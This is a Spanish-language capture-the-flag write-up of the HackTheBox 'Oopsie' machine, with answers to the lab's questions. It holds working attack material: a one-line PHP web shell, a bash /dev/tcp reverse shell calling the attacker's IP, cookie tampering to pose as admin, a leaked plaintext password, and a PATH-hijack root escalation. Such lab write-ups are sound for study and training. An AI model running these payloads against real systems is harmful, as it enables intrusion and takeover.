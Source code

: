 1)¿Con qué tipo de herramienta se puede interceptar el tráfico web?
	proxy

2)¿Cuál es la ruta al directorio en el servidor web que devuelve una página de inicio de sesión?
	/cdn-cgi/login
	Esto se respondio con el sitemap de caido y enumeracion de directorios con [[Gobuster]]

3)¿Qué se puede modificar en Firefox para acceder a la página de carga?
	cookie
	Esto por que en la pagina de uploads dice que tenemos que ser administrador, y eso se define en nuestro navegador por las cookies

4)¿Cuál es el ID de acceso del usuario admin?
	34322
	Esta respondido antes del cookie hijacking

5)Al cargar un archivo, ¿en qué directorio aparece ese archivo en el servidor?
	/uploads
	![[Oopsie11.png]]

6)¿Cuál es el archivo que contiene la contraseña que se comparte con el usuario robert?
	db.php
	Esto esta en la parte de escalada al usuario robert

7)¿Qué ejecutable se ejecuta con la opción «-group bugtracker» para identificar todos los archivos propiedad del grupo bugtracker?
	find

8)Independientemente del usuario que inicie la ejecución del ejecutable bugtracker, ¿qué privilegios de usuario utilizará para ejecutarlo?
	root

9)¿Qué significa SUID?
	set owner user id

10)¿Cuál es el nombre del ejecutable al que se llama de forma insegura?
	cat
	![[Oopsie21.png]]
Lo del cat lo pense de aca, que tira el error al no encontrar el archivo




-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.226
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.207.226 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.207.226 -oN target
```

![[Oopsie1.png]]

![[Oopsie2.png]]
Por el ttl cercano a 64 es una maquina linux
*Puertos*
`22` SSH
`80`HTTP apache


----
# [[Whatweb-wappalyzer]]

![[Oopsie3.png]]

No nos da ningun dato relevante

------
# Vamos a interceptar con [[Caido]]

Aceptamos la primera peticion de la pagina, para que pase todo el trafico asi se genera un sitemap

![[Oopsie5.png]]
Ahora tenemos una carpeta que se llama cdn-cgi
Con [[Gobuster]] `gobuster dir -u http://10.129.207.226/cdn-cgi/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 50` vamos a buscar posibles directorios y nos da que existe el directorio login

![[Oopsie4.png]]

--------
# Ingreso al panel de login

http://10.129.207.226/cdn-cgi/login/

![[Oopsie6.png]]
Entramos con ``login as a guest``

Ahora vamos a account
![[Oopsie7.png]]

Y vemos que somos el usuario id 2, normalmente el usuario admin es el id 1 por que es el primero en crearse
![[Oopsie8.png]]

Cambiamos el link a `http://10.129.207.226/cdn-cgi/login/admin.php?content=accounts&id=1`

![[Oopsie9.png]]
Y vemos el id del usuario admin, ahora vamos a cambiar los valores de la cookie para robarnos las credenciales

------
# Cookie Hijacking

Con el user id 34322 y el name de admin, que sacamos antes, vamos a apretar en el navegador CTRL + SHIFT + I
Se nos va a abrir esto y vamos a cambiar el valor role `guest` a `admin` y el valor de user `2233` a `34322`

![[Oopsie10.png]]
Reiniciamos y la pagina, y ya estamos como el usuario admin

---------
# Arbitrary file upload

![[Oopsie12.png]]

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]

`test.php`
```
<?php system($_GET["cmd"]); ?>
```
Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente

------
# [[Reverse shell]]

Con el archivo que subimos antes, vamos a ejecutar la revershell
http://10.129.207.226/uploads/test.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.16/443 0>%261'

![[Oopsie14.png]]
Mientras estamos en escucha con [[nc -nlvp 443]]

![[Oopsie16.png]]
Ya estamos dentro de la maquina, ahora hacemos un [[Tratamiento de la TTY]]


-----------
# Escalada de al usuario robert

Dentro de la carpeta /var/www/html/cdn-cgi ssamos el comando grep -riE "connect|.*connect|connect.*"   para buscar posibles contraseñas 


![[Oopsie20.png]]

Da como resultado ``M3g4C0rpUs3r!``
![[Oopsie19.png]]

------
# Escala a root mediante binario del grupo bugtracker

Vemos con [[id]] que estamos en el grupo bugtracker
Usamos el  comando [[find]] ``find / -group bugtraker 2>/dev/null`` para buscar archivos que pueda ejecutar por estar en este grupo

![[Oopsie23.png]]
Y tenemos que podemos usar el binario */usr/bin/bugtracker*
Al listar los permisos que tiene con [[ls]] `ls -l` vemos que es [[SUID]] y el usuario es root. 
![[Oopsie25.png]]

Al ejecutarlo me pide un id de bug, ponemos prueba y vamos que lo que esta haciendo el binario es un cat

![[Oopsie24.png]]
Entonces sacamos la conclusion de que estamos ejecutando el [[cat]] como si fueramos root

--------
# [[Path Hijacking]] al comando cat

Agregamos en el PATH el directorio /tmp. y en ese directorio creamos el archivo cat con el contenido `/bin/bash` para que cuando lo ejecutemos nos abra una bash. Le damos permisos de ejecucion con [[chmod]] `chmod +x cat` . Y ejecutamos el binario, ponemos cualquier id de bug. Y ya se nos abre la bash con privilegios de root, y podemos catear la flag

```shell
export PATH=/tmp:$PATH          /Agrega al principio del PATH el directorio tmp
echo "/bin/bash" > cat          /Crea el archivo cat, con el contenido /bin/bash
chmod +x cat                    /Da permisos de ejecucion al comando cat
/usr/bin/bugtracker             /Ejecuta el binario
```

![[Oopsie27.png]]
![[Oopsie28.png]]

-------
# Notas

Para el sitemap si usamos caido, no nos va a detectar el directorio login, pero con burpsuite

------
# Creditos
Writeup oficial HackTheBox